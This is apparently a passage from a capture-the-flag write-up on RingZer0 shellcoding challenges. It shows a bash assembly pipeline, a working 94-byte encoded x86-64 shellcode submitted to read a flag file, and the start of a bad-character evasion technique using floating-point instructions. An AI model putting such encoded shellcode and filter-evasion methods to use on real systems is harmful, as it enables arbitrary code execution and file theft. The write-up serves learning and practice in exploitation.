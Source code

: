 ```bash
$ echo; nasm -f bin ./completed2.asm; xxd -c 1 ./completed2 | awk '{print "\\x"$2 }' |tr -d '\n'; echo; wc -c ./completed2

\xeb\x22\x90\x90\x69\x21\xd0\x70\x7f\x74\x7e\x7a\x6f\x7a\x1f\x15\xa0\x12\x69\x97\xe7\x1f\x15\x69\x87\x69\x86\x1f\x15\xa0\x11\x70\x7f\x1f\x15\xd3\x81\x70\x04\x21\x10\x10\x20\x81\x70\x08\x20\x20\x20\x10\x81\x70\x0c\x10\x20\x10\x10\x81\x70\x10\x10\x10\x21\x10\x81\x70\x14\x10\x10\x10\x21\x81\x70\x18\x10\x21\x10\x10\x81\x70\x1c\x10\x10\x10\x20\x81\x70\x20\x20\x10\x10\x10\xeb\xa6
94 ./completed2

$ ssh level5@shellcode.ringzer0team.com -p 7771level5@shellcode.ringzer0team.com's password: 
Linux ld64deb1 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64
Last login: Thu Feb  5 17:23:29 2015 from 137.224.219.201

RingZer0 Team CTF Shellcoding Level 5
Submit your shellcode using hex representation "\xcc\xcd".
Type "end" to exit.

This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x68 and \x40 to \x65" max size 100 bytes.
You main goal is to read /flag/level5.flag

shellcode>\xeb\x22\x90\x90\x69\x21\xd0\x70\x7f\x74\x7e\x7a\x6f\x7a\x1f\x15\xa0\x12\x69\x97\xe7\x1f\x15\x69\x87\x69\x86\x1f\x15\xa0\x11\x70\x7f\x1f\x15\xd3\x81\x70\x04\x21\x10\x10\x20\x81\x70\x08\x20\x20\x20\x10\x81\x70\x0c\x10\x20\x10\x10\x81\x70\x10\x10\x10\x21\x10\x81\x70\x14\x10\x10\x10\x21\x81\x70\x18\x10\x21\x10\x10\x81\x70\x1c\x10\x10\x10\x20\x81\x70\x20\x20\x10\x10\x10\xeb\xa6
    Shellcode received...
    Shellcode length (94) bytes.

    Success: Executing shellcode...

/flag/level5.flag^@
FLAG-<redacted>
    Error: SIGSEGV received I think your shellcode is not working.
```

Level 6
-------

```
Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x68 and \x40 to \x81" max size 90 bytes.
```

Things are beginning to look grim! Every time I came up with a solution, the next level would list one or more crucial bytes as a bad char. This time, `0x81` became a bad char, blocking the use of the `xor`. 

I turned again to the gigantic table over at [ref.x64asm.net](http://ref.x86asm.net/coder64.html). I flipped through the list of available opcodes, looking for things that would allow me to decode and carve out the shellcode. Finally, my eyes caught the floating point instructions. One of the variants allows the use of integers as arguments for floating point operations:

```
fild dword [rax+rbx*4]
fiadd dword [rax+rcx*4]
fistp dword [rax+rcx*4]
```

